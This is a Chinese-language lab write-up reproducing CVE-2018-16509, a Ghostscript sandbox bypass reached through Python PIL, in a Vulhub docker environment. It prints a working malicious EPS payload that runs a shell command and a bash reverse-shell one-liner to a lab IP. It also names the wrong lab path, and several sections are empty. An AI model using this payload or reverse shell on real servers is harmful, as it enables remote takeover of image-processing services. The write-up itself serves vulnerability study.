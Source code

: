 # Python PIL 远程命令执行漏洞（via Ghostscript）

| 说明     | 内容                          |
| -------- | ----------------------------- |
| 漏洞编号 | PIL-CVE-2018-16509            |
| 漏洞名称 | Python PIL 远程命令执行漏洞   |
| 漏洞评级 |                               |
| 影响范围 |                               |
| 漏洞描述 |                               |
| 修复方案 | 打补丁<br >上设备<br>升级组件 |



### 1.1、漏洞描述

Ghostscript是一套基于Adobe Systems PostScript和可移植文档格式（PDF）页面描述语言的解释器的软件。不知何故，Ghostscript存在于生产服务器中（例如`/usr/local/bin/gs`或`/usr/bin/gs`），即使没有应用程序直接使用它，因为Ghostscript是作为另一个软件的依赖项安装的（例如ImageMagick）。在Ghostscript中发现了一系列漏洞;其中之一是CVE-2018-16509（由Google Project Zero的Tavis Ormandy发现），该漏洞允许利用Ghostscript  v9.24之前的-dSAFER旁路，通过处理PostScript中失败的恢复（grestore）来执行任意命令，以禁用LockSafetyParams并避免invalidaccess。此漏洞可通过ImageMagick等库或具有Ghotscript包装器的编程语言中的图像库（本示例中为PIL/Pillow）访问。

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/weblogic/CVE-2017-10271

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到

![image-20230911201743326](./imgs/image-20230911201743326.png)



#### 2、漏洞分析

[vulhub](https://vulhub.org/#/environments/python/PIL-CVE-2018-16509/)

#### 3、漏洞验证

可以上传[rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg)（一个特制的EPS图像，而不是真实的的JPG）以在服务器中执行`touch /tmp/got_rce`

![image-20230911201839418](./imgs/image-20230911201839418.png)

```bash
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```



![image-20230911201901497](./imgs/image-20230911201901497.png)

![image-20230911202320783](./imgs/image-20230911202320783.png)



### 1.5、深度利用

#### 1、反弹Shell

修改`poc.png`内容，重新上传，上传一句话木马反弹到kali机器上

```bash
bash -c "bash -i &> /dev/tcp/192.168.8.8/6868 0>&1"
```

![image-20230911202514718](./imgs/image-20230911202514718.png)

成功拿到root权限

![image-20230911202453124](./imgs/image-20230911202453124.png)

### 1.6、修复建议